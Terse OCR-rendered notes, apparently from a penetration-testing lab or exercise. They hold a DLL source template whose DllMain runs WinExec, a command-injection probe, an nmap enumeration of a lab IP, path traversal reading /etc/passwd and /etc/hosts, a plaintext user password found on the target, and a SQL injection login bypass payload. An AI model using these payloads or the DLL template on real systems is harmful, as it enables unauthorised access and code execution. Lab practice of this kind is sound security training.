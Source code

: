 


#include <windows.h> 
int execCommand() 
{  
 WinExec("", 1);
 WinExec("", 1);
 WinExec("", 1);  
 return 0; } 
BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved) 
{
 execCommand();  
 return 0;
 }

+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

DRY RUN
DryRun


*** if you find command injection   ; ls -la
	; ls -la /var/www/html


==========
Target 1
==========
10.50.23.84
nmap -sT -Pn 10.50.23.84 -p 80 --script http-enum
| http-enum: 
|   /login.php: Possible admin folder
|   /login.html: Possible admin folder
|   /img/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /scripts/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'

robots.txt ( noppeeeee )

../../../../../../../etc/passwd
	user2:x:1001:1001::/home/user2:/bin/sh
../../../../../../../../etc/hosts
	192.168.28.181 WebApp

/scripts/
system_user=user2
user_password=EaglesIsARE78

SQL injection
tom' or 1='1

.php?username=tom%27+or+1%3D%271&passwd=tom%27+or+1%3D%271


Connecting to T1
